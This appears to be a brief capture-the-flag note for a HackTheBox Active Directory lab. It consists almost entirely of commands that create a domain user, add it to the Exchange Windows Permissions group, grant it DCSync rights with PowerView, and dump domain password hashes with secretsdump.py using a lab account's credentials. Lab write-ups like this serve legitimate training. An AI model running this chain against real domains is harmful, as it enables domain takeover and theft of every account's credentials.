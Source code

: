 

create user, and add to group `Exchange windows permissions`

```bash
net user hello Password1 /add /domain

net group "Exchange windows permissions" hello /add
```

use the powerview, Add-DomainObjectAcl

```bash
$SecPassword = ConvertTo-SecureString 'Password1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\hello', $SecPassword)

# not work, no idea.
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity hello -Rights DCSync

# this works.
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hello -Rights DCSync

# dump hash.
secretsdump.py -just-dc htb.local/svc-alfresco:s3rvice@$tip 
```


